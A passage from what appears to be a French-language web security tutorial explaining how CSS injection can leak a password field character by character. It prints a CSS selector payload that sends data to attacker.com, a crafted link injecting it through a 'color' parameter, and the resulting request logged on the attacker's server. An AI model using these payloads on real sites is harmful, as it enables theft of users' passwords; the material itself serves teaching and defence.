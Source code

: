 {% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  input[name=password][value^=valeur] {
    background-image:url(https://banque-images.com/background.png);
  }
</style>
```
{% endcode %}

Le style va s'appliquer pour les éléments HTML `<input>`, dont l'attribut `name` est égal à "password" et dont la `value` commence par (le caractère `^` indique le début de chaîne) "valeur". Si un tel élément est trouvé, alors le navigateur appliquera le style `background-image` en récupérant l'image disponible à l'URL spécifiée.

L'attaquant va ainsi modifier le sélecteur comme ceci :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  input[name=password][value^=a] {
    background-image:url(https://attacker.com/?leak=a);
  }
</style>
```
{% endcode %}

Et amener sa victime à suivre le lien malicieux exploitant l'injection :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/css-injection-element-password.php?color=black;}input[name=password][value^=a]{background-image:url(https://attacker.com/?leak=a);}
```
{% endcode %}

Lorsque le navigateur de la victime chargera la page, la condition sera remplie et une requête sera effectuée vers le serveur de l'attaquant :&#x20;

{% code overflow="wrap" %}
```http
GET /?leak=a HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (22) (2).png" alt=""><figcaption></figcaption></figure>
